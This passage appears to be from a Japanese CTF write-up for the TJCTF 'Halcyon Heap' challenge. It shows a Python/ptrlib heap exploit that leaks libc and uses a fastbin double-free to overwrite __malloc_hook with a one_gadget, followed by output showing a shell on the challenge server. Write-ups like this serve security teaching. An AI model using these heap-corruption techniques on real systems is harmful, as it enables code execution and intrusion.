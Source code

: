 ```
destroy_deet(1)
payload = p64(addr_heap - 0x10)
payload += b'\x00' * 0x18
sice_deet(0x20, payload) # 2 == 1
payload = b'\x00' * 0x18
payload += p64(0x31)
sice_deet(0x20, payload) # 3 == 0
sice_deet(0x20, b"\x00" * 0x20) # 4 == 1
fake_chunk = b'\x00' * 8
fake_chunk += p64(0x131) # size
fake_chunk += b'C' * 0x10
sice_deet(0x20, fake_chunk) # 5 == address_of(1) - 0x10
sice_deet(0x70, b"A" * 0x70) # 6
sice_deet(0x70, b"A" * 0x70) # 7
sice_deet(0x10, b"A" * 0x8 + p64(0x11)) # 8

# leak libc
destroy_deet(4)
l = observe_deet(4)
addr_main_arena = u64(l[:8])
libc_base = addr_main_arena - libc_main_arena - delta
addr_one_gadget = libc_base + libc_one_gadget
addr_malloc_hook = libc_base + libc.symbol("__malloc_hook")
dump("libc base = " + hex(libc_base))

# fastbin corruption attack
sice_deet(0x60, b'A' * 0x60) # 9
sice_deet(0x60, b'A' * 0x60) # 10
destroy_deet(9)
destroy_deet(10)
destroy_deet(9)

payload = p64(addr_malloc_hook - 27 - 8)
sice_deet(0x60, payload) # 11 == 9
sice_deet(0x60, b"\x00" * 0x60) # 12 == 10
sice_deet(0x60, b"\x00" * 0x60) # 13 == 9
payload = b'\x00' * (3 + 16)
payload += p64(addr_one_gadget) # __malloc_hook
sice_deet(0x60, payload) # 14 == __malloc_hook - 27 + 8

# get the shell!
sock.interactive()
```

できたー！！
```
$ python solve.py 
[+] Socket: Successfully connected to p1.tjctf.org:8002
[ptrlib] addr heap = 0x55954d740030
[ptrlib] libc base = 0x7fa8e239f000
[ptrlib]$ 
> Enter the size of your deet: 
> Enter your deet: 
> Done!
Welcome to Halcyon Heap!
1. Sice a deet
2. Observe a deet
3. Brutally destroy a deet
4. Exit
> 1
[ptrlib]$ 1
Enter the size of your deet: 
> [ptrlib]$ ls
[ptrlib]$ flag.txt
```
